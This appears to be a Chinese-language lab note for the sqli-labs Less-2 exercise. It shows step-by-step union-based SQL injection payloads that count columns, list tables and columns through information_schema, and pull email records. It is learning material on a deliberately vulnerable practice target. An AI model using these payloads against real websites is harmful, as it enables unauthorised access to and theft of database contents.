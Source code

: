 # Less-2

## 0x01 注入

?id=1'

![image-20210112170512585](D:\WEB安全\笔记\image\image-20210112170512585.png)

报错型注入，参数类型是数字型。

?id=1 order by 3--+

知道字段数是3，就不再测试了。

?id=-1 union select 1,2,3--+

![image-20210112170745003](D:\WEB安全\笔记\image\image-20210112170745003.png)

?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

![image-20210112170841207](D:\WEB安全\笔记\image\image-20210112170841207.png)

?id=-1 union select 1, group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='emails'#

#和--+效果相同

![image-20210112171026293](D:\WEB安全\笔记\image\image-20210112171026293.png)

?id=-1 union select 1, group_concat(email_id), group_concat(id) from emails--+

![image-20210112171412728](D:\WEB安全\笔记\image\image-20210112171412728.png)

## 0x02 总结

参数类型有两种，一种是数字型，一种是字符型。

参数类型取决于sql语句的写法，看参数在语句中是否被引号包围。